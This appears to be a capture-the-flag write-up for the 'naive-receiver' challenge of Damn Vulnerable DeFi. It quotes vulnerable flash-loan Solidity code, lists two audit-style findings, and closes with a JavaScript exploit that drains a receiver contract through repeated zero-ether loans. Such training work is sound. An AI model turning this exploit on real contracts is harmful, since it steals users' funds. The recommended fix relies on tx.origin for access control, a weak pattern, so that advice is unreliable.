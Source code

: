 # Damn Vulnerable DeFi

Damn Vulnerable DeFi is the wargame to learn offensive security of DeFi smart contracts.

Throughout numerous challenges you will build the skills to become a bug hunter or security auditor in the space.

https://www.damnvulnerabledefi.xyz/

# Introduction

naive-receiver is the second challenge in the Damn Vulnerable DeFi series.

Challenge description: 
There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.
You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.
Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;)

Challenge goal:
Transfer all the ether in the FlashLoanReceiver contract to NaiveReceiverLender contract.

# Findings 

## Critical Risk
### No Access Control

**Context:** [`FlashLoanReceiver.sol#L21-L32`](https://github.com/tahos81/damn-vulnerable-defi-solutions/blob/master/contracts/naive-receiver/FlashLoanReceiver.sol) and [`NaiveReceiverLenderPool.sol#L21-L41`](https://github.com/tahos81/damn-vulnerable-defi-solutions/blob/master/contracts/naive-receiver/NaiveReceiverLenderPool.sol)

**Description:**
NaiveReceiverLenderPool contract does not check who is calling the flashLoan function and FlashLoanReceiver only checks if the msg.sender is pool, so anybody can take flash loans on behalf of FlashLoanReceiver contract.

```solidity
function receiveEther(uint256 fee) public payable {
    require(msg.sender == pool, "Sender must be pool");

    uint256 amountToBeRepaid = msg.value + fee;

    require(address(this).balance >= amountToBeRepaid, "Cannot borrow that much");
        
    _executeActionDuringFlashLoan();
        
    // Return funds to pool
    pool.sendValue(amountToBeRepaid);
}
```
**Recommendation:**
flashLoanReceiver should designate trusted address-es and check if tx.origin is trusted in receiveEther function.

```diff
+ address trustedAddress;
+ require(tx.origin == trustedAddress, "only trusted address can initiate loans");
- 
```

## Medium Risk
### No zero borrowAmount check

**Context:** [`NaiveReceiverLenderPool.sol#L21-L41`](https://github.com/tahos81/damn-vulnerable-defi-solutions/blob/master/contracts/naive-receiver/NaiveReceiverLenderPool.sol)

**Description:** 
flashLoan function in NaiveReceiverLenderPool contract does not check if the borrowAmount is nonzero which can lead to users paying fees for nothing(zero ether loans).

```solidity
function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {

    uint256 balanceBefore = address(this).balance;
    require(balanceBefore >= borrowAmount, "Not enough ETH in pool");


    require(borrower.isContract(), "Borrower must be a deployed contract");
    // Transfer ETH and handle control to receiver
    borrower.functionCallWithValue(
        abi.encodeWithSignature(
            "receiveEther(uint256)",
            FIXED_FEE
        ),
        borrowAmount
    );
        
    require(
        address(this).balance >= balanceBefore + FIXED_FEE,
        "Flash loan hasn't been paid back"
    );
}
```

**Recommendation:**
flashLoan should check if the borrowAmount is nonzero.

```diff
+ require(borrowAmount > 0, "borrowAmount must be nonzero");
-
```

# How To Solve The Challenge
take 10 zero ether flash loans on behalf of FlashLoanReceiver contract.

**Context:** [`naive-receiver.challenge.js#L32-L36`](https://github.com/tahos81/damn-vulnerable-defi-solutions/blob/master/test/naive-receiver/naive-receiver.challenge.js)

```javascript
it('Exploit', async function () {
    for (let i = 0; i < 10; i++) {
        await this.pool.connect(attacker).flashLoan(this.receiver.address, 0);
    }
});
```